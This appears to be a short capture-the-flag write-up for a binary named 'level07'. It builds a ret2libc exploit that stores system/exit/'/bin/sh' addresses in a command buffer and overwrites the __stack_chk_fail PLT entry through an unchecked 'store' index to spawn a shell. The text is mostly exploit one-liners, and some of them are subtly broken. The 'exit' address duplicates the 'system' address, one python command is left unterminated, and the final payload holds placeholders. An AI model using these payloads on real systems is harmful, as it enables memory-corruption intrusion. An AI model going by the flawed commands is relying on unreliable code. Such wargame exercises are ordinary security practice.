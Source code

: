 addr of "/bin/sh" : 0xf7f897ec
addr of system: 0xf7e6aed0
addr of exit: 0xf7e6aed0

Ret2libc code:

```
python -c 'print "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xf8\x97\xec"[::-1] + "\n" + "
```

We need to be able to put this code in a place where it can be executed later on.
Command[20] could allow us to store this ret2libc as the commands are quite short and no check is performed on these adresses

To do so we can first call for a garbage command to prefix our shellcode

```
python -c 'print "AAAAAA" + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xf8\x97\xec"[::-1] + "\n"'
```

This should allow us to be able to then call "store" command and pass an index without touching to the ret2libc code contained in command[20]

The data we want to store using "store" needs to be put at an index that will be executed.
To do so we can override the address of the plt of a function -> stack_check_fail : 0x804a010

```
(python -c 'print "AAAAAA" + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xf8\x97\xec"[::-1] + "\n" + "store" + "\n" + <address of command buffer + 7> + "\n" + <index diff between start of data[100] and 0x804a010>' ; cat) | ./level07
```
